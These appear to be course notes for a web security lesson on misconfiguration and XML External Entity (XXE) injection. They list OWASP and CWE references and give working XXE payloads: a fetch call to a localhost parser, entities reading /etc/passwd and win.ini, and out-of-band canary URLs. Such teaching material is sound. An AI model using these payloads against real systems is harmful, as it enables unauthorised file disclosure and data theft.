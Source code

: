 # Video 6.2

* [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration)

# Video 6.3

* [[OWASP] Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
* [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
* [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

# Video 6.4

* [Canarytokens](https://canarytokens.org/)
* [Webhook.site](https://webhook.site/)


## Different payloads

```js
var payload = `<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>`;

fetch("http://localhost:3005/parser", {
  "headers": {
    "content-type": "text/xml",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site"
  },
  "referrer": "http://localhost:3001/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": payload,
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "file:///c:/windows/win.ini">
]>
<foo>
  &xxe;
</foo>
```

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>
```
